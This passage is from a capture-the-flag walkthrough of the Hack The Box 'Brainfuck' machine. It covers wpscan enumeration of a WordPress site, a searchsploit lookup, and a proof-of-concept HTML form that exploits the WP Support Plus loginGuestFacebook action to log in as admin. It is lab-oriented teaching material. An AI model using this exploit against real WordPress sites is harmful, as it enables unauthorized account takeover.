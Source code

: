 `10.10.10.17 www.brainfuck.htb  sup3rs3cr3t.brainfuck.htb`.

Then, accept the certificate. After that, we can browse through these sites.

### Enumerating WordPress (www.brainfuck.htb)

We are then prompted to a WordPress webpage. A quick glance already give us possible credentials.

![brainfuck](/musubi/assets/htboscp/linux/brainfuck/wp.png)

`orestis@brainfuck.htb`

We first will use `wpscan` on the site to find any known vulnerabilities. Type,

` wpscan --url https://brainfuck.htb/ --disable-tls-checks ` .

After, we found out there are lots of vulnerabilities in the site. So, where should we start? Okay, here's one trick that can be used(not guaranteed 100%). We will choose the vulnerabilities that only have been documented by `exploitdb` . Using this way, we also can read exploits from `searchsploit` and just maybe, we might get the exploit working.

![wpsupportplus](/musubi/assets/htboscp/linux/brainfuck/wp_support_plus.png)

So, we found there is a WP Support Plus vulnerabilities that has `exploitdb` documentation. So, we can type `searchsploit WP Support Plus` and read the exploits/reports.

![wpsearchsploit](/musubi/assets/htboscp/linux/brainfuck/wpsearchsploit.png)

Okay, we got three exploits. But, we will discard the first one as it's version is older than what we currently dealing with.

![wpversion](/musubi/assets/htboscp/linux/brainfuck/wpversion.png)

### Exploitation

Let's read the first exploits. ( `cat /usr/share/exploitdb/exploits/php/webapps/41006.txt` )

![41006](/musubi/assets/htboscp/linux/brainfuck/41006.png)

It seems that we can exploit the usage of `wp_set_auth_cookie()` and login as anyone. We also got the Proof Of Concept. Let's try this one. But first, we need to get users information. So, we will run `wpscan --url https://brainfuck.htb/ --disable-tls-checks --enumerate u` .

![users](/musubi/assets/htboscp/linux/brainfuck/users.png)

Using the information above, we can guess that `orestis` might be an `admin` .

We then copy the POC then put it in an empty html file. Edit the url and add other information and we will have something like this.

{% highlight html %}
<form method="post" action="https://www.brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="orestis@brainfuck.htb">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
{% endhighlight %}
